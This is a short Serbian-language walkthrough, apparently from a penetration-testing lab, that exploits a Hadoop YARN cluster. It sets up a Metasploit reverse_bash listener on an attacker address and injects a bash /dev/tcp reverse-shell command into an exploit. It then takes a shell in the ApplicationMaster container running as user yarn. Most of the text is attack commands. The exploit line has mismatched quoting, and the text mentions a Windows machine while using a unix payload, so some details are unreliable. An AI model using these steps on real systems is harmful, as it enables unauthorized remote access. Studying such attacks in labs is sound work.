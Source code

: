 Za početak, sledi proces otvaranja porta na _Windows_ mašini. Pokrenuti _metaspolit_ u _command prompt_ sesiji:
``` sh
msfconsole
```
Odabrati eksploit za otvaranje porta:
``` sh
use exploit/multi/handler
```
Odabrati _payload_:
``` sh
set payload cmd/unix/reverse_bash
```
Postaviti adresu napadača
``` sh
set LHOST 192.168.1.5
```
Odabrati port koji će biti u režimu slušanja:
``` sh
set LPORT 9999
```
Ostaviti sesiju nakon što postane aktivna:
``` sh
set ExitOnSession false
```
Započeti proces slušanja:
``` sh
exploit -j
```

Nakon što je port otvoren, potrebno je pokrenuti podrazumevani eksploit uz manje modifikacije. 
```python
'command': f"/bin/bash -i >& /dev/tcp/%s/{attacker_port} 0>&1' % {attacker_address}",
```

Sada je potrebno vratiti se na _command prompt_ sesiju kako bi se otvorila _reverse shell_ sesija u okviru _ApplicationMaster_ kontejnera. 

Pregledati sve sesije:
``` sh
sessions
```
Zatim izabrati sesiju koja je uspostavljenja:
``` sh
sessions -i <session_id>
```
Moguće je proveriti pod kojim korisnikom se izvršava sesija, i odgovor kod referentnog klastera bi bio _yarn_.
``` sh
whoami # yarn
```